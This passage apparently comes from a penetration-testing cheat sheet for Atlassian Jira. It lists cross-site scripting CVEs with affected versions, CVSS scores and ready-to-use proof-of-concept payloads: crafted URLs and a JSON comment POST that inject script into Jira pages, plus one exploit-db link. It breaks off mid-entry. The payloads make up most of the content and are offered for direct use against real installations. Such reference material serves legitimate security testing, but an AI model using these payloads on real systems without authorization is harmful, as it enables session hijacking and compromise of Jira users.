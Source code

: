 ```

email=&fullname={{randstr}}&username=&password=&Signup=Sign+up
```

***

#### XSS <a href="#xss" id="xss"></a>

**CVE-2018-5230**

**Version**: `< 7.6.6`, `7.7.0 <= x < 7.7.4`, `7.8.0 <= x < 7.8.4`, `7.9.0 <= x < 7.9.2` (Jira version) **CVSS 3.x**: `6.1 MEDIUM AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm`

**CVE-2018-20824**

**Version**: `< 7.13.1` (Jira version) **CVSS 3.x**: `6.1 MEDIUM AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)`

**CVE-2019-3402**

**Version**: `< 7.13.1`, `8.0.0 <= x < 8.1.1` (Jira version) **CVSS 3.x**: `6.1 MEDIUM AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search`

**CVE-2019-8444**

**Version**: `7.7 <= x < 7.13.6`, `8.0.0 <= x < 8.3.2` (Jira version) **CVSS 3.x**: `5.4 MEDIUM AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `Low` **POC**:

Copy

```
POST /rest/api/2/issue/TEST-7/comment HTTP/1.1
Host: <JIRA>
Content-Length: x
Content-Type: application/json

{"body":"!image.png|width=\\\" οnmοuseοver=alert(333);//!"}
```

**CVE-2021-26078**

**Version**: `< 8.5.14`, `8.6.0 <= x < 8.13.6`, `8.14.0 <= x < 8.16.1` (Jira version) **CVSS 3.x**: `6.1 MEDIUM AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `None` **POC**: `https://www.exploit-db.com/exploits/50068`

**CVE-2007-0885**

**Version**: ??? (Rainbow with the Zen (Rainbow.Zen) extension) **CVSS 2.x**: `6.8 MEDIUM AV:N/AC:M/Au:N/C:P/I:P/A:P` **Privileges Required**: `None` **POC**: `https://<JIRA>/jira/secure/BrowseProject.jspa?id=%22%3e%3cscript%3ealert(document.domain)%3c%2fscript%3e`

**CVE-2020-9344**

**Version**: `< 8.8.2` (Jira Subversion ALM for Enterprise) **CVSS 2.x**: `6.1 MEDIUM AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `None` **POC**:
